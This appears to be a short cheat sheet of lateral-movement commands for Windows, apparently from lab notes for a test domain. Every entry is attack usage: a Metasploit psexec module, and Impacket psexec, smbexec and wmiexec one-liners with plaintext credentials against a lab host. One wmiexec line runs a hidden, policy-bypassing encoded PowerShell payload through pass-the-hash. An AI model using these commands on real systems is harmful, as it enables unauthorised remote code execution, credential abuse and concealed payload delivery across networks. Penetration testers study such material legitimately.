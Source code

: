 ## psexec

### MSFConsole

`exploit/windows/smb/psexec`

### PSExec.py

`psexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

### alternatives

#### smbexec

`smbexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

#### wmiexec

##### Example 1

`wmiexec.py lab.justin-p.me/dwalker:StrongPass1@10.11.12.101`

##### Example 2

`wmiexec.py lab.justin-p.me/dwalker@10.11.12.101 'powershell -exec bypass -Noninteractive -windowstyle hidden -e 'PAYLOAD' -hashes a:hash`
